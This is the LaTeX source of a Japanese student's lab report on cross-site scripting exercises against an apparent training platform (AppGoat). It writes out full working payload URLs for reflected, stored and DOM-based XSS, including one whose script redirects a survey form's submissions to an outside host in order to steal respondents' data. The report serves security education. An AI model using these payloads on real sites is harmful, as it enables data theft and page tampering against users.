\documentclass[dvipdfmx,autodetect-engine,titlepage]{jsarticle}
\usepackage[dvipdfm]{graphicx}
\usepackage{ascmac}
\usepackage{fancybox}
\usepackage{plistings}
\usepackage{itembkbx}
\usepackage{amsmath}
\usepackage{svg}
\usepackage{url}
\usepackage{graphics}
\usepackage{listings,jvlisting}
\lstset{
  basicstyle={\ttfamily},
  identifierstyle={\small},
  commentstyle={\smallitshape},
  keywordstyle={\small\bfseries},
  ndkeywordstyle={\small},
  stringstyle={\small\ttfamily},
  frame={tb},
  breaklines=true,
  columns=[l]{fullflexible},
  numbers=left,
  xrightmargin=0zw,
  xleftmargin=3zw,
  numberstyle={\scriptsize},
  stepnumber=1,
  numbersep=1zw,
  lineskip=-0.5ex
}

\textheight=23cm
\renewcommand{\figurename}{図}
\renewcommand{\tablename}{表}
\newenvironment{code}
{\vspace{0.5zw}\VerbatimEnvironment  
\begin{screen} 
\baselineskip=1.0\normalbaselineskip
 \begin{Verbatim}}
{\end{Verbatim}
\baselineskip=\normalbaselineskip
 \end{screen}\vspace{0.5zw}} 

\title{情報理工学部 SNコース 3回\\
Webアプリケーション脆弱性演習レポート\\}
\author{2600200443-6\\Yamashita Kyohei\\山下 恭平}
\date{May 16 2022}

\begin{document}

\maketitle

\section{クロスサイト・スクリプティング}

\subsection{クロスサイト・スクリプティングとは}
クロスサイト・スクリプティングの脆弱性とは、悪意のある人が不正なスクリプト
を何らかの手段でウェブページに埋め込むことで、その不正なスクリプトが被害者
のブラウザ上で実行されてしまう脆弱性である。この脆弱性が悪用されてしまうと、
偽のウェブページが表示されたり、情報が漏洩したりする可能性がある。

\subsection{Level1演習}

\subsubsection*{脆弱性の概要および発見演習}
この演習では、ある登録画面の入力に対して
\begin{math}「'>"><hr>」\end{math}と入力した結果。本来入力された
文字列を確認する画面にて、水平な線が引かれた。その様子を以下の図1,2に示す。

\begin{figure}[h]
  \centering
  \begin{minipage}[b]{0.45\linewidth}
  \begin{center}
    
\includegraphics[keepaspectratio,scale=0.34]{pic1.png}
    \end{center}
    \caption{}
  \end{minipage}
  \begin{minipage}[b]{0.45\linewidth}
  \begin{center}
    
\includegraphics[keepaspectratio,scale=0.33]{pic2.png}
    \end{center}
    \caption{}
  \end{minipage}
\end{figure}

これは、内部の処理において、入力された文字列のエスケープ処理が施されていなかった
ために、出力画面において入力されたスクリプトがそのまま実行されてしまったと
考えられる。\\

\subsection{Level2演習}

\subsubsection*{アンケートページの改竄(反射型)}
この演習では、名前を入力する欄に脆弱性を確認できた。また、入力された内容が
urlにも反映されることを利用して、アンケートページの内容を書き換え、通常とは
異なるアンケートページを表示するurlを作成し、それを掲示板に貼る攻撃を行った。
実際に作成したurlは「
\url{http://appgoat.cysec-lab.org/Users/is0585xf/Web/Scenario1121/VulSoft/enquete.php?page=2&name=<script>document.getElementById("account").innerHTML='なんでも入力してね'</script>&sex=0&old=20&company=&xss=1&trouble=1&content=}
」である。これは、url内の「name=」の部分がそのまま名前入力欄と対応しているので、
その部分に直接スクリプトを書き込んでいる。\\
通常のアンケート画面と改編後のアンケート画面を以下の図3,4に示す。

\begin{figure}[h]
  \centering
  \begin{minipage}[b]{0.45\linewidth}
  \begin{center}
    
\includegraphics[keepaspectratio,scale=0.37]{pic3.png}
    \end{center}
    \caption{}
  \end{minipage}
  \begin{minipage}[b]{0.45\linewidth}
  \begin{center}
    
\includegraphics[keepaspectratio,scale=0.35]{pic4.png}
    \end{center}
    \caption{}
  \end{minipage}
\end{figure}

これは、Level1演習の時と同じように、入力された文字列に対してエスケープ処理
が施されていなかったため、入力されたスクリプトがそのまま実行されたと考えられる。


\subsubsection*{入力情報の漏洩(反射型)}
この演習では、名前を入力する欄に脆弱性を確認できた。また、入力された内容が
urlにも反映されることを利用して、アンケートの送信先を変更するスクリプトを
urlに埋め込み、そのurlからアクセスした人のアンケート結果を盗む攻撃を行った。
実際に作成したurlは「\url{http://appgoat.cysec-lab.org/Users/is0585xf/Web/Scenario1122/VulSoft/enquete.php?page=2&name=<script>document.getElementById("enquete_form").action='https://zyouhourouei.com'</script>&sex=0&old=&company=&xss=1&trouble=1&content=}
」である。これは、url内の「name=」の部分がそのまま名前入力欄と対応しているので、
その部分に直接スクリプトを書き込んでいる。\\以下の図に元のサイトからのアンケート送信結果と、掲示板のurlから
アクセスしたサイトのアンケート送信結果を以下の図5,6に示す。

\begin{figure}[h]
  \centering
  \begin{minipage}[b]{0.45\linewidth}
  \begin{center}
    
\includegraphics[keepaspectratio,scale=0.3]{pic5.png}
    \end{center}
    \caption{}
  \end{minipage}
  \begin{minipage}[b]{0.45\linewidth}
  \begin{center}
    
\includegraphics[keepaspectratio,scale=0.3]{pic6.png}
    \end{center}
    \caption{}
  \end{minipage}
\end{figure}

これは、Level1演習の時と同じように、入力された文字列に対してエスケープ処理
が施されていなかったため、入力されたスクリプトがそのまま実行されたと考えられる。

\subsubsection*{掲示板に埋め込まれるスクリプト(格納型)}
この演習では、掲示板の本文を入力する欄に脆弱性が確認できた。また、掲示板であるので
投稿された内容(スクリプト)はその投稿が削除されるまで継続されることを利用して、
アクセスしたユーザの画面にポップアップダイアログを表示するスクリプトを埋め込む。
実際に埋め込んだスクリプトとその結果を以下の図7,8に示す。 \\

\begin{figure}[h]
  \centering
  \begin{minipage}[b]{0.45\linewidth}
  \begin{center}
    
\includegraphics[keepaspectratio,scale=0.3]{pic7.png}
    \end{center}
    \caption{}
  \end{minipage}
  \begin{minipage}[b]{0.45\linewidth}
  \begin{center}
    
\includegraphics[keepaspectratio,scale=0.3]{pic8.png}
    \end{center}
    \caption{}
  \end{minipage}
\end{figure}

これは、Level1演習の時と同じように、入力された文字列に対してエスケープ処理
が施されていなかったため、入力されたスクリプトがそのまま実行されたと考えられる。

\subsubsection*{webページの改竄(DOMベース)}
この演習では、検索エンジンの検索ワード欄に脆弱性を確認できた。また、urlに
検索ワードが組み込まれることを利用して、検索結果で表示されるページのリンク
先を変更するurlを作成し、そのurlからアクセスした人を危険なサイトへと誘導する
攻撃を行った。実際に作成したurlは「\url{http://appgoat.cysec-lab.org/Users/is0585xf/Web/Scenario1124/VulSoft/search.php?page=1&submit=1&keyword=<script>document.getElementById('link0').href='http://appgoat.cysec-lab.org/Users/is0585xf/Web/Scenario1124/attackers_page.php';</script>
}」である。これは、url内の「keyword=」の部分が検索ワードと対応しており、そこに
直接リンク先を変更するスクリプトを埋め込んでいる。以下の図9,10が示すように、
作成したリンクから飛んだwebベージで表示されているページにアクセスすると、表示
内容とは異なる攻撃者のページに遷移していることがわかる。

\begin{figure}[h]
  \centering
  \begin{minipage}[b]{0.45\linewidth}
  \begin{center}
    
\includegraphics[keepaspectratio,scale=0.35]{pic9.png}
    \end{center}
    \caption{}
  \end{minipage}
  \begin{minipage}[b]{0.45\linewidth}
  \begin{center}
